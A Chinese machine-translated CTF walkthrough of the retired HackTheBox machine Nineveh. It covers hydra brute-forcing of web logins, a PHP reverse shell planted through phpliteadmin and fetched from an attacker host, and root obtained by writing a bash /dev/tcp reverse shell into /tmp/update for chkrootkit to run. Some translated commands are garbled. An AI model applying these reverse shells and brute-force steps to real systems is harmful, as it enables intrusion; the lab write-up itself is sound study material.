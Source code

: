 # 尼尼微——退休的 HTB 漫游

> 原文：<https://infosecwriteups.com/nineveh-retired-htb-walkthrough-33a15fa0919?source=collection_archive---------0----------------------->

![](img/602e1ee48db07a46ecf856e299b5b9d0.png)

我以前曾用九头蛇做一些网络登录蛮力，在这个最近退休的黑客机器，九头蛇再次派上用场。让我们来看看是什么让这个盒子变得非常有趣，我从中学到了一些很酷的技巧。

我下载虚拟机的来源表明它的静态 IP 是 192.168.0.150。因此，让我们直接在门外对它进行 nmap 测试:

![](img/b5526daa2cfe6e6fabbc732276a78163.png)

我们看到端口 80 和端口 443 是打开的，仅此而已。看起来这将是一个完全基于网络的挑战。没关系，我喜欢利用网络！让我们看看两个端口上都运行了什么。

端口 80:

![](img/40913624a893a48f9253dada0dd907a9.png)

端口 443:

![](img/9f7d4b66e9a152205983505683c2233e.png)

我们并没有从这两个静态页面中得到多少，所以让我们首先使用“大”dirb 列表将 dirb 放在端口 80:

![](img/4c213dde3ca0ecb4693b82b9746cc237.png)

我们看到目录/department/，其中包含/files/目录本身。似乎很有趣，所以让我们来看看这个:

![](img/41c22e6a86857ab1e23dbd3d758eb9e1.png)

太好了，我们可以通过网络登录了。尝试典型的登录，我们注意到当我们有一个错误的用户名时，网站会发出警告。输入用户名“admin ”,它告诉我们错误的密码。现在我们已经枚举了用户名，让我们使用 hydra 和 rockyou.txt 来强行登录:

![](img/9488bb8c52f3425ee79f1b2b2813150e.png)

酷，我们有密码了。让我们登录，看看我们有什么:

![](img/29a085e1893e3101de8e46df081a9ce2.png)![](img/bfd1552b0af48cb595d5245eca2f94fc.png)

请注意，在第二个图像中，URL 指定了要读取的文件。这以后可能会派上用场，但是现在让我们记住它。由于没有什么可看的，让我们在端口 443 上运行一个 dirb:

![](img/dbb8676e01a1609b781973fa72437dfd.png)

导航到/db/ we 得到一个 phpliteadmin 登录:

![](img/a7b4b89a1f9923c751c79648809c9fda.png)

好了，关于九头蛇的话题，让我们再次启动它并登录:

![](img/bd467b3f5b1624d7e73ef1bb688d5eaf.png)

酷，现在我们也有 phpliteadmin 的登录了！登录后，我们会看到典型的 phpMyAdmin 页面，在这里我们可以创建新的数据库和表。让我们创建一个名为 ninevehNotes.txt 的新数据库，因为回到端口 80 端，它在 Notes 页面中读取 ninevehNotes.txt。我们可以创建页面，在数据库中创建一个表，然后给它一个 php 反向 shell 脚本来执行。

> http://X . X . X . X/shell . txt-O/tmp/shell . PHP；PHP/tmp/shell . PHP ")；？>

为 shell.txt 提供以下内容

> &三二> &三)；？>

这一行 php 代码来自我便利的反向 shell 备忘单，可以在[http://pentest monkey . net/cheat-sheet/shell/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)上找到

使用 python 托管我的 shell.txt 所在的 SimpleHTTPServer，我可以获取我的 shell 文件，并通过 url 加载我创建的数据库来用 php 执行它:

![](img/a35c7000eb4006598aeb242ade2cf79f.png)

在我的本地主机上运行 netcat 监听器允许我捕获我通过管道传输到 IP 的/bin/bash:

![](img/3fb17d13a32d4fddc347c9f700d9cc77.png)

环顾四周，我做的第一件事是检查根目录。首先注意到的是一个名为/report 的目录。这个目录中有几个文本文件，包含一个名为 chkrootkit 的已知 rootkit 检查器的输出。这些文件是按分钟来记录日期的，可以看出它每分钟都在准时运行，可能是用 cron 作业。使用 searchsploit，我们了解到 chkrootkit 在运行时容易以 root 用户身份执行特定文件:

![](img/0a4f692f9e2fc46708975241dd9f5f28.png)

很好，接下来我们需要做的是创建一个名为/tmp/update 的文件，它将返回一个反向 shell，该 shell 将以 root 用户身份运行。再次进入反向 shell 备忘单，我们可以使用 bash 后门:

> bash-I > &/dev/TCP/X . X . X . X/1337 0 > & 1

将此写入更新文件，在我的本地机器上抛出另一个 netcat 监听器，并捕获根 shell:

![](img/2705341e2c1df2d0625544fbd21c5d9b.png)